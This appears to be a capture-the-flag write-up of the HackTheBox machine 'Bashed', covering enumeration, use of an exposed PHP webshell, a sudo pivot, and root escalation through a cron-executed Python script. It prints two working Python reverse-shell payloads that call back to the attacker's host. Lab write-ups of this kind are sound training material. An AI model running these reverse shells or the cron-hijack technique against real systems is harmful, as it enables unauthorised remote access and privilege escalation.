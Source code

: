 ```yaml
---
title: HTB - Bashed
date: 2020-08-04 00:00
categories: [Writeups, hackthebox]
tags: [htb, linux, machines, bashed, apache, ubuntu, nmap, webshell, http, php, dirbuster, sudo, python, cron]
---
```


Bashed is a Linux machine running just a Web Server. However, this server is also used for development by the Administrator. As we enumerate the service, we can see that the HTTP service account is given sudo privileges and Apache Web Seerver is also running on default config. The cron job running as root user execute scripts without any sanity check. 

## Information Gathering

### NMAP
Run a quick scan on all ports and then run default scripts and OS/Version detection on open ports only.
```terminal
$ sudo nmap -sV -sC -O -p80 -oA nmap/full-tcp 10.10.10.68
```
![nmap_scan](/assets/img/sample/htb-bashed-nmap-scan.png)

Only one port[HTTP:80] is open and its an **Apache httpd 2.4.18** running on **Ubuntu** server.

### HTTP [p.80]

Opening the website in browser loads "**Arrexel's Development Site**". 

![http_home](/assets/img/sample/htb-bashed-http-home.png)

There is only one post linked to home-page and it takes us to /single.html`. It's a blog-post that describes some **phpbash** webshell. The developer explains that this webshell was developed on this server.

![http_single](/assets/img/sample/htb-bashed-http-single.png)

Also if we inspect source-code of homepage, we can see a [GitHub Link to 'phpbash' source](https://github.com/Arrexel/phpbash)

![http_github](/assets/img/sample/htb-bashed-http-github.png)

Screenshots given by dev on github page and blog page shows a link to "*../uploads/phpbash.php*". However, the link gives us Error 404. The **uploads** directory exists and it redirects to "*../uploads/index.html*" but the **phpbash.php** webshell is not here :(

To enumerate the box further, we need to move on to *Directory Traversal Attacks* like bruteforce and Fuzz the hidden directories on server. `dirbuster` will do the job nicely here. Since `phpbash.php` is not in **uploads** and also not int web-root directory. So, the first step will be to figure out if there are any other directories (*like /uploads*) that are still hidden from us.

![http_dirbuster](/assets/img/sample/htb-bashed-http-dirbuster.png)

We can see that in addition to `/uploads/` directory, there are other directories including `/dev/` folder.

## User Shell

### Webshell [phpbash]

If we browse to any directory (like eg. /images), we can see full listing of its contents. So that makes it easier to go through their contents without guessing filenames. The dev has kept Apache's *Indexes Options* enabled globally and it helps our cause. The webshell can be found in `/dev/` directory.

![www_dev](/assets/img/sample/htb-bashed-www-dev.png)

Click on any of the two scripts and we get access to phpbash webshell as `www-data`

![www_shell](/assets/img/sample/htb-bashed-www-shell.png)

At this point, we should be able to grab the **user** flag from `/home/arrexel/user.txt`

### User [scriptmanager]

To get a interactive bash shell, we can send a **Reverse Shell** back to our machine. We can check from webshell that *Python* is available on the target box. Listen on Port `2222` with netcat and execute the following Python code.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
![reverse_shell](/assets/img/sample/htb-bashed-reverse-shell.png)

From `/etc/passwd` file, we can see that there 3 user accounts on this server.
```
root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```
And, most interestingly, **www-data** service account has `sudo` privliges to run commands as user **scriptmanager**.

```terminal
$ sudo -l
```
![www_sudo](/assets/img/sample/htb-bashed-www-sudol.png)

Get the shell as user **scriptmanager** simply by running `bash` with `sudo`

```terminal
$ sudo -u scriptmanager bash -i
```

### Root
Account **scriptmanager** does not have sudo privliges. We can run enumeration scripts to look for weeknesses but navigating through the filesystem, this conspicuous `/scripts` folder stand out too much.

![scripts_folder](/assets/img/sample/htb-bashed-scripts-folder.png)

There is a very simple Python script **test.py** and a text file **test.txt** in `/scripts/` folder. Here's the source code with explanation added in comments:

```python
f = open("test.txt", "w")	# Open's the file "test.txt" in "write-only" mode
f.write("testing 123!")		# write a string "testing 123!" in opened file
f.close						# Close the file
```
Let's look at properties of these files:
```
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jul 31 13:25 test.txt
```
We can see that:
1. User `scriptmanager` is the owner of Python script **test.py**
2. The file **text.txt**, created as a result of running the script, has `root` as owner. This means that whichever process executed the **test.py** script is being run by the ownership of `root`
3. The timestamp associated with **test.txt** is the current time more or less. With a bit of observation, we can find that the timestamp is being updated every 1 minute. So, this can be most probably a **cron** job.

To get **root** privliges, we can simply edit the Python script **test.py** and make the cron job send us root shell on our machine. Let's modify the same python reverse-shell script we used earlier and also change port to an unused one, lets say `2223`
```python
#!/usr/bin/env python3
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.12",2223))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```
And that should be it!! Listen on `2223` port on our machine with `netcat` and upload the script to **/scripts/test.py**. As soon as the cron job kicks in, we get the reverse shell on our machine as **root**

![root_shell](/assets/img/sample/htb-bashed-root-shell.png)